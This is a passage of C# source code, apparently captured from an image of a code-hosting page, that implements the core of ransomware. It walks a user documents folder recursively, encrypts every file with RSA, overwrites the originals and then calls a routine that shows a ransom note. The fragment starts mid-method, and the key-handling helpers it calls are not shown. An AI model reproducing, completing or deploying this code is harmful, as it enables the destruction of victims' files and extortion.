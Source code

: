 ```csharp

        string targetDirectory = "C:\\Users\\Public\\Documents\\";

        string publicKey = GeneratePublicKey();



        EncryptFiles(targetDirectory);

        DisplayRansomNote(publicKey);

    }



    static void EncryptFiles(string directory)

    {

        string[] files = Directory.GetFiles(directory, "*", SearchOption.AllDirectories);



        foreach (string file in files)

        {

            byte[] encryptedData = EncryptFile(file);

            File.WriteAllBytes(file, encryptedData);

        }

    }



    static byte[] EncryptFile(string filePath)

    {

        byte[] data = File.ReadAllBytes(filePath);

        byte[] encryptedData;



        using (RSACryptoServiceProvider rsa = new RSACryptoServiceProvider())

        {

            rsa.FromXmlString(GetPublicKey());

            encryptedData = rsa.Encrypt(data, true);

        }



        return encryptedData;

    }

```